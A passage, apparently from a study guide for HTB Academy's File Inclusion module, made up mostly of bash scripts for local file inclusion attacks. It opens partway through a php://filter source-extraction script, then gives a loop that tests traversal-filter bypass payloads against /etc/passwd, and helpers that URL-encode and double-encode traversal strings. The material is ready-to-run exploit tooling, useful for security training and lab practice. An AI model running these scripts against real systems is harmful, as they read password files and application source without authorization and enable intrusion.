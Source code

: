 ```bash
echo "[+] Extracting source for: $FILE"
curl -s "${URL}?file=php://filter/convert.base64-encode/resource=${FILE}" | \
grep -o '[A-Za-z0-9+/=]*' | tr -d '\n' | base64 -d > "${FILE}.extracted"

echo "[+] Source saved to: ${FILE}.extracted"
EOF
chmod +x extract_php_source.sh
```

### Bypass Testing Scripts
```bash
# Non-recursive bypass tester
cat << 'EOF' > test_nonrecursive.sh
#!/bin/bash
TARGET=$1
if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target_url>"
    exit 1
fi

echo "[+] Testing non-recursive bypasses..."
patterns=(
    "....//....//....//etc/passwd"
    "....\/....\/....\/etc/passwd"
    "..../..../..../etc/passwd"
    "..%2f..%2f..%2fetc%2fpasswd"
)

for pattern in "${patterns[@]}"; do
    echo -n "Testing: $pattern ... "
    result=$(curl -s "${TARGET}${pattern}" | grep -o "root:" | wc -l)
    if [ "$result" -gt 0 ]; then
        echo "SUCCESS"
    else
        echo "FAILED"
    fi
done
EOF
chmod +x test_nonrecursive.sh
```

### URL Encoding Tools
```bash
# URL encode helper function
url_encode() {
    echo "$1" | python3 -c "import sys, urllib.parse; print(urllib.parse.quote(sys.stdin.read().strip()))"
}

# Double URL encode
double_encode() {
    echo "$1" | python3 -c "import sys, urllib.parse; data=sys.stdin.read().strip(); print(urllib.parse.quote(urllib.parse.quote(data)))"
}

# Usage examples
url_encode "../../../etc/passwd"
double_encode "../../../etc/passwd"
```

---

*This guide covers advanced LFI bypass techniques and PHP filters from HTB Academy's File Inclusion module, essential for overcoming common LFI protections and achieving source code disclosure.* 